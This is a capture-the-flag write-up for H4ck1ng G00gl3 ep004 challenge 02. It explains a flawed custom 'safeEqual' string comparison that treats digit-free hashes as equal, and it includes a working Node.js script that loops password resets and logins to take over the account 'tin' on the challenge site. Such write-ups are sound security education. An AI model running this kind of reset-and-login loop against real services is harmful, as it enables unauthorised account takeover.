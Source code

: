 #+title: H4ck1ng G00gl3 ep004 challenge 02
#+description: todo
#+publishdate: 2022-11-20


* Table of Contents                                               :TOC_5_org:
- [[Introduction][Introduction]]
- [[Learning Journey][Learning Journey]]

* Introduction

[[https://h4ck1ng.google/][H4ck1ng G00gl3]] is a series of security challenges published on *October 2022* where the only way to win is to think like a hacker. In this post, I explain how I solved *ep004 challenge 02*. Category *Web Exploitation*.

* Learning Journey

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/intro.png]]

In this challenge, we are given some code. We have to find the vulnerability and login as "tin". Let's check the code.

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/hashed-passwords.png]]

I found two hardcoded users and their hashed passwords in the "users.js" file. My first idea was to try and bruteforce somehow the password for "tin", but to no avail. I also searched for the value in some rainbow tables on the internet, but it didn't work out.

In that file, I also found a function to reset the password with a comment saying: "we don't allow admins to reset passwords". "tin" is not an admin, and that comment makes me think it has to be an important detail. However, I don't see how this helps me now, so I wrote it down and continued reading the code.

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/reset-password.png]]

I found another interesting file, "safe-equals.js". It's strange because *the developers programmed their own version of constant time string comparison*. Programming your own cryptographic functions is dangerous. For sure, there must be some vulnerability hidden here. At first glance, it seems to be correct. I didn't pay the required attention to the code. I read it fast and thought it was comparing each letter of the string position by position, regardless of the first position where the letters differed.

#+attr_html: :width 1000px
#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/safe-equal.png]]

That made me lose a lot of time double-checking other parts of the code. I went to ask the community. Effectively, the *"safeEqual" function is vulnerable*. I had to come back and read it again. This time I decided to check line by line and check on the internet the documentation for every function. After that, I understood the problem. It isn't comparing each value stored in each position of the strings passed as input. Instead, *it compares the indices of the first appearance of every number that the loop is iterating*. I'm not sure I explained myself there, so let me put it in an example.

#+begin_src javascript
  // Example: call the function with two strings of the same length
  function safeEqual('abc123', 'a1b2c3') {
      let match = true;

      // For our input, this condition is not met
      if(a.length !== b.length) {
          // This is not executed
          match = false;
      }

      const l = a.length; // l = 6
      // Iterate from 0 to 5
      for (let i = 0; i < l; i++) {
        // Compare the index of value "i" in both strings.
        // For i = 0 -> a.indexOf(0) === b.indexOf(0) -> -1 === -1 -> true
        // For i = 1 -> a.indexOf(1) === b.indexOf(1) -> 4 === 1 -> false
        // ...
        match &&= a.indexOf(i) === b.indexOf(i);
      }


    return match;
  }

  safeEqual('abc123', 'a1b2c3') // returns false
  safeEqual('abcd', 'qwer') // returns true
  safeEqual('ab12c', 'qw121') // returns true
#+end_src

The function checks that the first occurrence of each number in both strings returns the same index. If you think about it, that means that any two strings without numbers will return true. *The trick then is to reset "tin" password until it creates a hash without numbers. Then, we must log in with a password that produces a hash without numbers.*

First, I searched for a password that produced a hash without numbers. It was simple. I just computed in a for loop the hash value for strings of different lengths with the letter "a" (e.g., "a", "aa", "aaa"). The result was that a *string containing seventy-three "a" produces a hash without numbers*. That is our password. The second step was creating a script that automatically called the reset password endpoint and then tried to log in with the password we computed.

#+begin_src javascript
  const requestPromise = require('request-promise').defaults({ jar: true });

  var loginOptions = {
      method: 'POST',
      uri: 'https://vrp-website-web.h4ck.ctfcompetition.com/login',
      form: {
          username: 'tin',
          password: 'a'.repeat(73)
      },
      followAllRedirects: true,
  };

  var resetOptions = {
      method: 'POST',
      uri: 'https://vrp-website-web.h4ck.ctfcompetition.com/reset-password',
      form: {
          username: 'tin'
      },
  };

  (async function () {
      let i = 0;
      let incorrect = true;
      while (incorrect) {
          const loginResponse = await requestPromise(loginOptions);
          incorrect = /Incorrect/.test(loginResponse);
          console.log(i);
          i++;

          if (!incorrect) {
              console.log(loginResponse);
              break;
          }

          await requestPromise(resetOptions);
      }
  })();
#+end_src

Executing the script returns the response with the flag. With that, we completed the challenge.

#+attr_html: :class centered-image
[[/images/h4ck1ng00gl3/ep004ch02/intro.png]]
